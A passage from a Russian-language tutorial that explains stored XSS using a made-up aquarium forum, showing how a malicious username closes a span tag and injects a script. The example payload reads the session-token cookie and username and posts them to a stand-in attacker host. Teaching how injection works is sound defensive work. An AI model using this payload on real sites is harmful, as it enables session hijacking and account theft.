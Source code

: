 Рассмотрим ещё один пример и разберёмся, как выглядит внедрение XSS изнутри. Представим, что вы разрабатываете какой-нибудь форум любителей аквариумных рыбок. Пусть схематично его разметка выглядит так:

```html
<h1>Здравствуйте, <span class="username">Обычный Пользователь</span>!</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
    </footer>
</article>
```

Простая разметка — ничего необычного. Один из пользователей, который создал эту тему для обсуждения выбрал при регистрации необычное имя. Вот такое:

```
Другой пользователь</span><script>const username=document.querySelector('.username').textContent;const sessionCookie=document.cookie.match(/session-token=([^;$]+)/)[1];fetch('http:/www.malicious-site.com',{method: 'post',body:JSON.stringify({username,sessionCookie})});</script>
```

Что произойдёт, если другой участник обсуждения просмотрит эту тему? Разметка страницы начнёт выглядеть следующим образом (отформатировано для читабельности):

```html
<h1>Здравствуйте, <span class="username">Обычный Пользователь</span>!</h1>
<article class="topic">
	<header class="topic-header">
		<h2>Разведение пираний в домашних условиях</h2>
	</header>
	<p class="topic-body">
		Всем привет. Я решил завести себе пираний.
Расскажите, какие плюсы, минусы, подводные камни.</p>
    <footer class="posted-by">
        От <span class="poster-name">Другой Пользователь</span>
        <script>
            const username = document.querySelector(`.username`).textContent;
            const sessionCookie = document.cookie.match(/session-token=([^;$]+)/)[1];
            fetch(`http:/www.malicious-site.com`, {
                method: `post`,
                body: JSON.stringify({username, sessionCookie})
            });
        </script>
    </footer>
</article>
```

Визуально на странице ничего не изменится. Всё то же безумное объявление, но это лишь на первый взгляд. Экзотичное имя пользователя (то самое с кодом) содержало закрывающий тег ``</span>``. Выходит, что на этом описание элемента с именем пользователя заканчивается. За ним следует тег ``<script>`` c JavaScript кодом, который браузер вынужден исполнить.
